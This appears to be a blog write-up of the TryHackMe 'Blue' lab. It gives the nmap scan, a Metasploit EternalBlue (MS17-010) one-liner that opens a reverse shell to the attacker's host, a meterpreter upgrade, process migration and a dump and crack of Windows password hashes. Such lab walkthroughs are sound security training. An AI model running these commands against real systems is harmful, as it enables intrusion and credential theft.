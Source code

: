 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
published: true
---
```


## Recon  

**Set a terminal environmental variable for target IP address**  

```
export IP=<target-ip-address> 
```

**Run nmap services and vulnerabilities scan**  

```  
nmap -sV -vv --script=vuln $IP  
```  

![](/thm-blue/thm-blue-nmap-command.png)    

**Results**  

![](/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability affecting Microsoft SMBv1 servers (ms17-010).  

More info:  

https://www.exploit-db.com/exploits/41891  

## Exploit  

**Run msfconsole and perform reverse tcp shell exploit**
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We can set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally).  

**Metasploit go brrrr...**    

 ![](/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is now running.  

**Results**  

  ![](/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, but eventually we get a reverse TCP shell.  

**Backgrounding the shell example**    

```  
background  
```  
  
> Ctrl-z does the same thing.  

 ![](/thm-blue/thm-blue-background-example.png)

**Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell**  

**Search for the upgrade script**   
```
search upgrade shell   
```  

 ![](/thm-blue/thm-blue-search-upgrade-shell-1.png)  

**Select the script for use**  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches)

 ![](/thm-blue/thm-blue-run-upgrade-shell.png)  

**Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell**  

 ![](/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

**Run the script**  

 > The script ran, but we don't have an upgraded shell...

**Hmmm. Thats not working...**  
 
 For some reason, the script isn't upgrading our reverse TCP shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

**Let's try again**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default. Also, we don't have to set the global variables again, but this is the handy initial one-liner to go back to and use, cause honestly the reverse TCP shell kinda sucks.  

 ![](/thm-blue/thm-blue-meterpreter-default.png)  

**Background the meterpreter session, then view sessions. We started with default meterpreter shell**  

 ![](/thm-blue/thm-blue-meterpreter-session-started.png)

**Reconnect to the meterpreter session and list the current processes running on the target**  

 ![](/thm-blue/thm-blue-meterpreter-ps.png)  

**Get process ID of current meterpreter shell**

 ![](/thm-blue/thm-blue-meterpreter-getpid.png)  

**Migrate to another process and back. Grep is kinda broken...**  

 ![](/thm-blue/thm-blue-meterpreter-migrate.png)  

**Dump the user hashes**  

 ![](/thm-blue/thm-blue-meterpreter-hashdump.png)  

**Quick and dirty hash crack using CrackStation**  

 ![](/thm-blue/thm-blue-crackstation.png)  

**Quick and dirty find flags**  

 ![](/thm-blue/thm-blue-find-flags.png)  

# Donezo Funzo.












